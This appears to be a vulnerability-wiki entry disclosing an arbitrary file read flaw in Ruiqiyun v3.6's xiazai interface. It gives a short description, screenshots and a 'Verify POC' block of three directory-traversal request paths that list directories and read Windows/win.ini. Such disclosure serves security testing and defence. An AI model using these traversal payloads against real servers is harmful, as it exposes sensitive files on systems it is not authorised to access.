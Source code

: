 # Ruiqiyunxiazai arbitrary file reading vulnerability

## Vulnerability Description

There is a vulnerability to read any file in the xiazai interface. The attacker can obtain sensitive files in the server through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Ruiqiyun v3.6</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1692239495468-467f771d-6d80-4a09-b9a0-b2bfd3f617ab.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1692264395187-adcf551b-bc30-496e-925b-bd38a20716a1.png)

Verify POC

```plain
/dwr/hret/fileTree?filePath=../
/dwr/srecy/xiazai?filePath=../../../../../../../../../../../Windows/win.ini
/dwr/hret/downfile?fpid=../../../../../../../../../Windows/win.ini 
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1692264749738-c04d5539-ac64-4ffe-b790-62db0da31ba1.png)